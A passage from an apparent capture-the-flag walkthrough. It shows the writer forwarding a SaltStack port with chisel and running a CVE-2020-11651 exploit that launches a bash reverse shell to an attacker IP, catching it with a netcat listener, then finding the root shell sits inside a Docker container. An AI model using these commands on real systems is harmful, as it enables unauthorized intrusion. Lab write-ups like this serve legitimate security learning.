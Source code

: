*while testing this script find out that the script requires python salt module which is not installed in the box*
```python
(remote) tomcat@VirusBucket:/tmp$ python3 exploit.py 
Traceback (most recent call last):
  File "exploit.py", line 16, in <module>
    import salt
ModuleNotFoundError: No module named 'salt'
```
*so the script is not gonna work directly, First need to forward 4506 port in the local machine and install the salt module in my local machine.*

**Port forwarding** with [chisel](https://github.com/jpillora/chisel/releases/download/v1.7.3/chisel_1.7.3_linux_amd64.gz)

# Privesc

* forwarding port 4506 to my local machine -
```bash
./chisel client 10.10.14.43:4242 R:4506:127.0.0.1:4506
```

* start server -
```bash
./chisel server -p 4242 --reverse
```

* open a new nc listener - 
```
nc -nvlp 4343
```

* install salt module in my local macjine and run the script - 
```bash
❯ python3 exploit.py --master 127.0.0.1 --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.43/4343 0>&1"'
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
[+] Checking salt-master (127.0.0.1:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: cydg/5uledxv14SGDpmBbyebuAbZMKJjPTU9oAaF9Xeq6IflytJmJl25GejBnE0w51cDAUhYghA=
[+] Attemping to execute bash -c "bash -i >& /dev/tcp/10.10.14.43/4343 0>&1" on 127.0.0.1
[+] Successfully scheduled job: 20201222115325271998
```

# Docker Escape

* so what i get is a root shell but inside a docker not in the box itself.
* there is a `todo.txt` file in the root dir - 
```bash
root@2d24bf61767c:~# cat todo.txt
cat todo.txt
- Add saltstack support to auto-spawn sandbox dockers through events.
- Integrate changes to tomcat and make the service open to public.
```
